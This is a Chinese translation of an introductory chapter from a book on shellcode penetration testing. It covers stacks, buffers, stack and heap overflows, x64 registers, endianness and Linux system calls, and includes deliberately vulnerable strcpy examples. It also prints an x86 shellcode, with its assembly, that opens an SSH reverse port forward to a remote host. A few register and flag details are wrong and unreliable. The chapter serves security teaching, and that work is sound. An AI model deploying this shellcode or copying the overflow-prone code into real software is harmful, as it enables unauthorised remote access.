









# 介绍

欢迎来到*Shellcode 渗透测试*的第一章。术语**渗透测试**指的是攻击系统而不对系统造成任何损害。攻击背后的动机是在攻击者找到进入系统的方法之前，找到系统的缺陷或漏洞。因此，为了衡量系统抵抗暴露敏感数据的能力，我们尽可能收集尽可能多的数据，并使用 shellcode 执行渗透测试，我们必须首先了解溢出攻击。

缓冲区溢出是最古老且最具破坏性的漏洞之一，可能对操作系统造成严重损害，无论是远程还是本地。基本上，这是一个严重的问题，因为某些函数不知道输入数据是否能够适应预分配的空间。因此，如果我们添加的数据超过了分配的空间，那么这将导致溢出。有了 shellcode 的帮助，我们可以改变同一应用程序的执行流程。造成损害的主要核心是 shellcode 生成的有效载荷。随着各种软件的传播，即使有像微软这样的强大支持，也可能使您容易受到此类攻击。Shellcode 正是我们希望在控制执行流程后执行的内容，我们稍后将详细讨论。

本章涵盖的主题如下：

+   什么是堆栈？

+   什么是缓冲区？

+   什么是堆栈溢出？

+   什么是堆？

+   什么是堆破坏？

+   什么是 shellcode？

+   计算机体系结构介绍

+   什么是系统调用？

让我们开始吧！

# 什么是堆栈？

**堆栈**是内存中为每个运行的应用程序分配的空间，用于保存其中的所有变量。操作系统负责为每个运行的应用程序创建内存布局，在每个内存布局中都有一个堆栈。堆栈还用于保存返回地址，以便代码可以返回到调用函数。

堆栈使用**后进先出**（**LIFO**）来存储其中的元素，并且有一个堆栈指针（稍后我们会讨论它），它指向堆栈的顶部，并使用*push*将元素存储在堆栈顶部，使用*pop*从堆栈顶部提取元素。

让我们看下面的例子来理解这一点：

```
#include <stdio.h>
void function1()
{
    int y = 1;
    printf("This is function1\n");
}
void function2()
{
    int z = 2;
    printf("This is function2\n");
}
int main (int argc, char **argv[])
{  
    int x = 10;
    printf("This is the main function\n");
    function1();
    printf("After calling function1\n");
    function2();
    printf("After calling function2");
    return 0;
}
```

这就是上述代码的工作原理：

+   `main`函数将首先启动，将变量`x`推入堆栈，并打印出句子`This is the main function`，如下所示：


+   `main`函数将调用`function1`，在继续执行`function1`之前，将`printf("After calling function1\n")`的地址保存到堆栈中，以便继续执行流程。通过将变量`y`推入堆栈来完成`function1`后，它将执行`printf("This is function1\n")`，如下所示：


+   然后，再次返回到`main`函数执行`printf("After calling function1\n")`，并将`printf("After calling function2")`的地址推入堆栈，如下所示：


+   现在控制将继续执行`function2`，通过将变量`z`推入堆栈，然后执行`printf("This is function2\n")`，如下图所示：


+   然后，返回到`main`函数执行`printf("After calling function2")`并退出。

# 什么是缓冲区？

**缓冲区**是用于保存数据（如变量）的临时内存部分。缓冲区只能在其函数内部访问或读取，直到它被声明为全局；当函数结束时，缓冲区也随之结束；当存在数据存储或检索时，所有程序都必须处理缓冲区。

让我们看下面的代码行：

```
char buffer;
```

这段 C 代码的含义是什么？它告诉计算机分配一个临时空间（缓冲区），大小为`char`，可以容纳 1 个字节。您可以使用`sizeof`函数来确认任何数据类型的大小：

```
#include <stdio.h>
#include <limits.h>
int main()
{
    printf("The size for char : %d \n", sizeof(char));
    return 0;
}
```

当然，您也可以使用相同的代码来获取其他数据类型的大小，比如`int`数据类型。

# 什么是堆栈溢出？

**堆栈溢出**发生在将更多数据放入缓冲区中而它无法容纳时，这导致缓冲区被填满并覆盖内存中的相邻位置，剩下的输入。当负责复制数据的函数不检查输入是否能够适合缓冲区时，就会发生这种情况，比如`strcpy`。我们可以使用堆栈溢出来改变代码的执行流到另一个代码，使用 shellcode。

这是一个例子：

```
#include <stdio.h>
#include <string.h>
// This function will copy the user's input into buffer
void copytobuffer(char* input)
{
   char buffer[15];
   strcpy (buffer,input);
}
int main (int argc, char **argv[])
{
   copytobuffer(argv[1]);
   return 0;
}
```

代码的工作方式如下：

+   在`copytobuffer`函数中，它分配了一个大小为`15`个字符的缓冲区，但这个缓冲区只能容纳 14 个字符和一个空终止字符串`\0`，表示数组的结尾

您不必以空终止字符串结束数组；编译器会为您完成。

+   然后是`strcpy`，它从用户那里获取输入并将其复制到分配的缓冲区中

+   在`main`函数中，它调用`copytobuffer`并将`argv`参数传递给`copytobuffer`

当`main`函数调用`copytobuffer`函数时，实际发生了什么？

以下是这个问题的答案：

+   `main`函数的**返回地址**将被推送到内存中

+   **旧基址指针**（在下一节中解释）将保存在内存中

+   将分配一个大小为 15 字节或*15*8*位的缓冲区的内存部分：



现在，我们同意这个缓冲区只能容纳 14 个字符，但真正的问题在于`strcpy`函数内部，因为它没有检查输入的大小，它只是将输入复制到分配的缓冲区中。

现在让我们尝试使用 14 个字符编译和运行此代码：


让我们看看堆栈：



如您所见，程序在没有错误的情况下退出。现在，让我们再试一次，但使用 15 个字符：


现在让我们再看看堆栈：


这是堆栈溢出，分段错误是内存违规的指示；发生的情况是用户的输入溢出了分配的缓冲区，从而填充了旧的基址指针和**返回地址**。

**分段错误**意味着用户空间内存中的违规，**内核恐慌**意味着内核空间中的违规。

# 什么是堆？

**堆**是应用程序在运行时动态分配的一部分内存。堆可以使用 C 语言中的`malloc`或`calloc`函数进行分配。堆与堆栈不同，因为堆会一直保留，直到：

+   程序退出

+   它将使用`free`函数删除

堆与堆栈不同，因为在堆中可以分配非常大的空间，并且在分配的空间上没有限制，例如在堆栈中，根据操作系统的不同，分配的空间是有限的。您还可以使用`realloc`函数调整堆的大小，但无法调整缓冲区的大小。在使用堆时，您必须在完成后使用`free`函数释放堆，但在堆栈中不需要；此外，堆栈比堆更快。

让我们看看下面的代码行：

```
 char* heap=malloc(15);
```

这段 C 代码的含义是什么？

它告诉计算机在堆内存中分配一个大小为`15`字节的部分，并且还应该容纳 14 个字符加上一个空终止字符串`\0`。

# 什么是堆损坏？

堆损坏发生在复制或推送到堆中的数据大于分配的空间时。让我们看一个完整的堆示例：

```

#include <string.h>
#include <stdlib.h>
void main(int argc, char** argv)
{
  // Start allocating the heap
    char* heap=malloc(15);
  // Copy the user's input into heap
    strcpy(heap, argv[1]);
  // Free the heap section
    free(heap);
}
```

在第一行代码中，使用`malloc`函数分配了一个大小为`15`字节的堆；在第二行代码中，使用`strcpy`函数将用户输入复制到堆中；在第三行代码中，使用`free`函数释放了堆，返回给系统。

让我们编译并运行它：


现在，让我们尝试使用更大的输入来使其崩溃：


这个崩溃是堆破坏，迫使程序终止。

# 内存布局

这是一个包含以下内容的程序的完整内存布局：

+   `.text`部分用于保存**程序代码**

+   `.data`部分用于保存**初始化的数据**

+   `.BSS`部分用于保存**未初始化的数据**

+   **堆**部分用于保存**动态分配的变量**

+   **栈**部分用于保存非动态分配的变量，如缓冲区：


看看**堆**和**栈**是如何增长的；**栈**从**高内存**增长到**低内存**，而**堆**从**低内存**增长到**高内存**。

# 什么是 shellcode？

Shellcode 就像是用机器语言编写的溢出利用中使用的有效载荷。因此，shellcode 用于在利用易受攻击的进程后覆盖执行流程，比如让受害者的机器连接回您以生成一个 shell。

下一个示例是用于 Linux x86 SSH 远程端口转发的 shellcode，执行`ssh -R 9999:localhost:22 192.168.0.226`命令：

```
"\x31\xc0\x50\x68\x2e\x32\x32\x36\x68\x38\x2e\x30\x30\x68\x32\x2e\x31\x36""\x66\x68\x31\x39\x89\xe6\x50\x68\x74\x3a\x32\x32\x68\x6c\x68\x6f\x73\x68""\x6c\x6f\x63\x61\x68\x39\x39\x39\x3a\x66\x68\x30\x39\x89\xe5\x50\x66\x68""\x2d\x52\x89\xe7\x50\x68\x2f\x73\x73\x68\x68\x2f\x62\x69\x6e\x68\x2f\x75""\x73\x72\x89\xe3\x50\x56\x55\x57\x53\x89\xe1\xb0\x0b\xcd\x80";
```

这是该 shellcode 的汇编语言：

```
xor    %eax,%eax
push   %eax
pushl  $0x3632322e
pushl  $0x30302e38
pushl  $0x36312e32
pushw  $0x3931
movl   %esp,%esi
push   %eax
push   $0x32323a74
push   $0x736f686c
push   $0x61636f6c
push   $0x3a393939
pushw  $0x3930
movl   %esp,%ebp
push   %eax
pushw  $0x522d
movl   %esp,%edi
push   %eax
push   $0x6873732f
push   $0x6e69622f
push   $0x7273752f
movl   %esp,%ebx
push   %eax
push   %esi
push   %ebp
push   %edi
push   %ebx
movl   %esp,%ecx
mov    $0xb,%al
int    $0x80
```

# 计算机架构

让我们来了解一些计算机架构（Intel x64）中的概念。计算机的主要组件如下图所示：



让我们更深入地了解 CPU。CPU 有三个部分：

+   **算术逻辑单元**（**ALU**）：这部分负责执行算术运算，如加法和减法，以及逻辑运算，如 ADD 和 XOR

+   **寄存器**：这是我们在本书中真正关心的内容，它们是 CPU 的超快速内存，我们将在下一节中讨论

+   **控制单元**（**CU**）：这部分负责 ALU 和寄存器之间的通信，以及 CPU 本身和其他设备之间的通信

# 寄存器

正如我们之前所说，寄存器就像是 CPU 的超快速内存，用于存储或检索处理中的数据，并分为以下几个部分。

# 通用寄存器

Intel x64 处理器中有 16 个通用寄存器：

+   累加器寄存器（**RAX**）用于算术运算—**RAX**持有**64**位，**EAX**持有**32**位，**AX**持有**16**位，**AH**持有**8**位，**AL**持有**8**位：


+   基址寄存器（**RBX**）用作数据指针—**RBX**持有**64**位，**EBX**持有**32**位，**BX**持有**16**位，**BH**持有**8**位，**BL**持有**8**位：


+   计数器寄存器（**RCX**）用于循环和移位操作—**RCX**持有**64**位，**ECX**持有**32**位，**CX**持有**16**位，**CH**持有**8**位，**CL**持有**8**位：


+   数据寄存器（**RDX**）用作数据持有者和算术运算—**RDX**持有**64**位，**EDX**持有**32**位，**DX**持有**16**位，**DH**持有**8**位，**DL**持有**8**位：



+   源索引寄存器（**RSI**）用作源指针—**RSI**持有**64**位，**ESI**持有**32**位，**DI**持有**16**位，**SIL**持有**8**位：


+   目的索引寄存器（**RDI**）用作目的指针—**RDI**持有**64**位，**EDI**持有**32**位，**DI**持有**16**位，**DIL**持有**8**位：

**RSI**和**RDI**都用于流操作和字符串操作。

+   栈指针寄存器（**R****SP**）用作指向栈顶的指针—**RSP**持有**64**位，**ESP**持有**32**位，**SP**持有**16**位，**SPL**持有**8**位：


+   基指针寄存器（**RBP**）用作栈的基址指针—**RBP**持有**64**位，**EBP**持有**32**位，**BP**持有**16**位，**BPL**持有**8**位：



+   寄存器 R8、R9、R10、R11、R12、R13、R14 和 R15 没有特定的操作，但它们的架构与先前的寄存器不同，比如**高**（**H**）值或**低**（**L**）值。但是，它们可以用作**D**表示**双字**，**W**表示**字**，或**B**表示**字节**。让我们以**R8**为例：


在这里，R8 保存 64 位，R8D 保存 32 位，R8W 保存 16 位，R8B 保存 8 位。

R8 到 R15 只存在于 Intel x64 而不是 x84。

# 指令指针

指令指针寄存器或 RIP 用于保存下一条指令。

让我们先看以下示例：

```
#include <stdio.h>
void printsomething()
{
    printf("Print something\n");
}
int main ()
{
    printsomething();

    printf("This is after print something function\n");
    return 0;
}
```

将执行的第一件事是`main`函数，然后它将调用`printsomething`函数。但在调用`printsomething`函数之前，程序需要确切地知道在执行`printsomething`函数后的下一个操作是什么。因此，在调用`printsomething`之前，下一条指令`printf("This is after print something function\n")`的位置将被推送到 RIP 等等：


在这里，RIP 保存 64 位，EIP 保存 32 位，IP 保存 16 位。

以下表格总结了所有通用寄存器：

| **64 位寄存器** | **32 位寄存器** | **16 位寄存器** | **8 位寄存器** |
| --- | --- | --- | --- |
| RAX | EAX | AX | AH,AL |
| RBX | EBX | BX | BH, BL |
| RCX | ECX | CX | CH, CL |
| RDX | EDX | DX | DH,DL |
| RSI | ESI | SI | SIL |
| RDI | EDI | DI | DIL |
| RSP | ESP | SP | SPL |
| RBP | EBP | BP | BPL |
| R8 | R8D | R8W | R8B |
| R9 | R9D | R9W | R9B |
| R10 | R10D | R10W | R10B |
| R11 | R11D | R11W | R11B |
| R12 | R12D | R12W | R12B |
| R13 | R13D | R13W | R13B |
| R14 | R14D | R14W | R14B |
| R15 | R15D | R15W | R15B |

# 标志寄存器

这些是计算机用来控制执行流程的寄存器。例如，汇编中的 JMP 操作将根据标志寄存器的值执行，比如“跳转如果为零”（JZ）操作，这意味着如果零标志包含 1，执行流程将被改变到另一个流程。我们将讨论最常见的标志：


+   如果在算术运算中有加法进位或减法借位，则设置进位标志（CF）。

+   如果设置位的数量为偶数，则设置奇偶标志（PF）。

+   如果在算术运算中有二进制代码十进位的进位，则设置调整标志（AF）。

+   如果结果为零，则设置零标志（ZF）。

+   如果最高有效位为 1（数字为负数），则设置符号标志（SF）。

+   在算术运算中，如果操作的结果太大而无法容纳在寄存器中，将设置溢出标志（OF）。

# 段寄存器

共有六个段寄存器：


+   代码段（CS）指向堆栈中代码段的起始地址

+   堆栈段（SS）指向堆栈的起始地址

+   数据段（DS）指向堆栈中数据段的起始地址

+   额外段（ES）指向额外数据

+   F 段（FS）指向额外数据

+   G 段（GS）指向额外数据

FS 中的 F 表示 E 后的 F；而 GS 中的 G 表示 F 后的 G。

# 端序

端序描述了在内存或寄存器中分配字节的顺序，有以下两种类型：

+   “大端”意味着从左到右分配字节。让我们看看像*shell*这样的单词（十六进制为**73** **68** **65** **6c** **6c**）将如何在内存中分配：



它按从左到右的顺序推送。

+   “小端”意味着从右到左分配字节。让我们看看以小端方式处理前面的例子：



正如你所看到的，它向后推了*llehs*，而最重要的是英特尔处理器是小端序的。

# 系统调用

在 Linux 内存（RAM）中有两个空间：用户空间和内核空间。内核空间负责运行内核代码和系统进程，并具有对内存的完全访问权限，而用户空间负责运行用户进程和应用程序，并具有对内存的受限访问权限，这种分离是为了保护内核空间。

当用户想要执行一个代码（在用户空间），用户空间通过系统调用发送请求给内核空间，也被称为 syscalls，通过诸如 glibc 的库，然后内核空间使用 fork-exec 技术代表用户空间执行它。

# 什么是系统调用？

系统调用就像用户空间用来请求内核代表用户空间执行的请求。例如，如果一个代码想要打开一个文件，那么用户空间会发送打开系统调用给内核，代表用户空间打开文件，或者当一个 C 代码包含`printf`函数时，用户空间会发送写系统调用给内核：



fork-exec 技术是 Linux 通过 fork 系统调用复制父进程在内存中的资源，然后使用 exec 系统调用运行可执行代码的方式来运行进程或应用程序。

系统调用就像内核 API，或者说你要如何与内核本身交流，告诉它为你做一些事情。

用户空间是一个隔离的环境或沙盒，用来保护内核空间及其资源。

那么我们如何获取 x64 内核系统调用的完整列表呢？实际上很容易，所有系统调用都位于这个文件中：`/usr/include/x86_64-linux-gnu/asm/unistd_64.h`：

```
cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h 
```

以下截图显示了上述命令的输出：



这只是我的内核系统调用的一小部分。

# 总结

在本章中，我们讨论了计算机科学中的一些定义，如堆栈、缓冲区和堆，还简要提到了缓冲区溢出和堆破坏。然后，我们转向了计算机体系结构中的一些定义，比如寄存器，在调试和理解处理器内部执行方式方面非常重要。最后，我们简要讨论了系统调用，在 Linux 汇编语言中也很重要（我们将在下一部分中看到），以及内核如何在 Linux 上执行代码。在这一点上，我们已经准备好进入另一个层次，即构建一个环境来测试溢出攻击，并创建和注入 shellcode。
